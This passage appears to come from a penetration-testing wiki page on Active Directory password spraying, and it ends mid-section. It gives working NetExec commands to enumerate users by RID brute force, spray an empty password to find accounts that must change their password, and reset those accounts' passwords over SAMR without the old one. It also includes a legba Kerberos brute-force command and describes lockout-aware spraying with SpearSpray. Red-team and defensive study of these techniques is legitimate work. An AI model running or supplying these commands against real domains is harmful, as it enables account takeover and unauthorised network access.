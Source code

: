 A low-noise technique is to spray a benign/empty password and catch accounts returning STATUS_PASSWORD_MUST_CHANGE, which indicates the password was forcibly expired and can be changed without knowing the old one.

Workflow:
- Enumerate users (RID brute via SAMR) to build the target list:

[[../../network-services-pentesting/pentesting-smb/rpcclient-enumeration.md]]

```bash
# NetExec (null/guest) + RID brute to harvest users
netexec smb <dc_fqdn> -u '' -p '' --rid-brute | awk -F'\\\\| ' '/SidTypeUser/ {print $3}' > users.txt
```
```
- Spray an empty password and keep going on hits to capture accounts that must change at next logon:

```bash
# Will show valid, lockout, and STATUS_PASSWORD_MUST_CHANGE among results
netexec smb <DC.FQDN> -u users.txt -p '' --continue-on-success
```
```
- For each hit, change the password over SAMR with NetExec’s module (no old password needed when "must change" is set):

```bash
# Strong complexity to satisfy policy
env NEWPASS='P@ssw0rd!2025#' ; \
netexec smb <DC.FQDN> -u <User> -p '' -M change-password -o NEWPASS="$NEWPASS"

# Validate and retrieve domain password policy with the new creds
netexec smb <DC.FQDN> -u <User> -p "$NEWPASS" --pass-pol
```
```
Operational notes:
- Ensure your host clock is in sync with the DC before Kerberos-based operations: `sudo ntpdate <dc_fqdn>`.
- A [+] without (Pwn3d!) in some modules (e.g., RDP/WinRM) means the creds are valid but the account lacks interactive logon rights.

## Brute Force

```bash
legba kerberos --target 127.0.0.1 --username admin --password wordlists/passwords.txt --kerberos-realm example.org
```
```
### Kerberos pre-auth spraying with LDAP targeting and PSO-aware throttling (SpearSpray)

Kerberos pre-auth–based spraying reduces noise vs SMB/NTLM/LDAP bind attempts and aligns better with AD lockout policies. SpearSpray couples LDAP-driven targeting, a pattern engine, and policy awareness (domain policy + PSOs + badPwdCount buffer) to spray precisely and safely. It can also tag compromised principals in Neo4j for BloodHound pathing.

Key ideas:
- LDAP user discovery with paging and LDAPS support, optionally using custom LDAP filters.
- Domain lockout policy + PSO-aware filtering to leave a configurable attempt buffer (threshold) and avoid locking users.
- Kerberos pre-auth validation using fast gssapi bindings (generates 4768/4771 on DCs instead of 4625).
- Pattern-based, per-user password generation using variables like names and temporal values derived from each user’s pwdLastSet.
- Throughput control with threads, jitter, and max requests per second.
- Optional Neo4j integration to mark owned users for BloodHound.

Basic usage and discovery:
```